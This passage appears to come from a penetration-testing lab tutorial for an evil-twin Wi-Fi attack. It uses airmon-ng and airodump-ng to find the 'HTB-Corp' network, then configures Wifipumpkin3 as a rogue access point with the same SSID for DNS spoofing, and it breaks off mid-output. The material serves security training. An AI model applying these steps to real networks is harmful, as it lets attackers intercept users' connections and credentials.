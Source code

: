 <p>We begin by enabling monitor mode on the <code>wlan0</code> interface using the <code>airmon-ng</code> tool. Once the interface is in monitor mode, <code>airodump-ng</code> is used to scan for the target network, allowing us to gather essential details such as the network's <code>BSSID</code>, <code>channel</code>, and <code>signal strength</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ airmon-ng start wlan0
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon -c 1


 CH  1 ][ Elapsed: 0 s ][ 2025-01-20 21:04 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28   0       17        2    0   1   54   WPA2 TKIP   PSK  HTB-Corp                                             

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  62:BD:99:A1:9E:1B  -29    0 - 5      0        1
</code></pre>
<p>Based on the output, we identify our target network as <code>HTB-Corp</code>. Next, we will use <code>Wifipumpkin3</code> to create a rogue access point with the same name, allowing us to intercept connections and perform the attack.</p>
<pre><code class="language-shell-session">[!bash!]$ wifipumpkin3

Authorization required, but no authorization protocol specified
  _      ___ _____     ___                  __    _      ____
 | | /| / (_) __(_)___/ _ \__ ____ _  ___  / /__ (_)__  |_  /
 | |/ |/ / / _// /___/ ___/ // /  ' \/ _ \/  '_// / _ \_/_ &lt; 
 |__/|__/_/_/ /_/   /_/   \_,_/_/_/_/ .__/_/\_\/_/_//_/____/ 
                                   /_/                       
                                            codename: Gao
by: @mh4x0f - P0cL4bs Team | version: 1.1.7 main
[*] Session id: 470d1b0c-d770-11ef-9a1d-d2209f6784c7 
wp3 &gt; 
</code></pre>
<p>After starting Wifipumpkin3, we configure the rogue access point running the following commands:</p>
<pre><code class="language-shell-session">wp3 &gt; set interface wlan1
wp3 &gt; set ssid HTB-Corp
wp3 &gt; set proxy noproxy
wp3 &gt; ignore pydns_server
</code></pre>
<p>These commands set the wireless interface <code>wlan1</code> to host the access point, assign the SSID to <code>HTB-Corp</code>, disable the proxy by setting it to <code>noproxy</code>, and exclude the <code>pydns_server</code> since the attack focuses on DNS spoofing.</p>
<p>Next, we can run the <code>ap</code> command to view the current settings configured for our rogue AP, including the <code>BSSID</code>, <code>SSID</code>, <code>channel</code>, <code>interface</code>, <code>interface_net</code>, <code>status</code>, <code>security</code> and <code>hostapd_config</code>.</p>
<pre><code class="language-shell-session">wp3 &gt; ap

[*] Settings AccessPoint:
=========================
